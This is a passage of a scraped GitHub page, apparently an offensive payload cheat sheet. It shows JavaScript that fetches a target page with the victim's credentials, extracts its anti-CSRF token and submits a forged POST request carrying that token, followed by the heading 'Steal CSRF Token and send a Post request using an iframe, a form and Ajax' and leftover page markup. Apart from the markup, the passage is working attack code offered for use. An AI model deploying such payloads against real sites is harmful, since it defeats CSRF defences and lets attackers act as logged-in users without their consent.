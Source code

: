     // Send the proper header information along with the request
    xhr.setRequestHeader(&quot;Content-type&quot;, &quot;application/x-www-form-urlencoded&quot;);

    // This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE &amp;&amp; xhr.status === 200) {
            //console.log(xhr.responseText);
        }
    }

    xhr.send(&quot;token=&quot; + token + &quot;&amp;otherparama=heyyyy&quot;);
}

function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = &quot;document&quot;;
    xhr.withCredentials = true;
    // true on the end of here makes the call asynchronous
    xhr.open(&quot;GET&quot;, GET_URL, true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE &amp;&amp; xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementById(&quot;token&quot;);
            // Show the token
            //console.log(&quot;The token is: &quot; + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}

var GET_URL=&quot;http://google.com?param=VALUE&quot;
var POST_URL=&quot;http://google.com?param=VALUE&quot;
getTokenJS();
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-csrf-token-and-send-a-post-request-using-an-iframe-a-form-and-ajax" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-send-a-post-request-using-an-iframe-a-form-and-ajax"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and send a Post request using an iframe, a form and Ajax</strong></h3>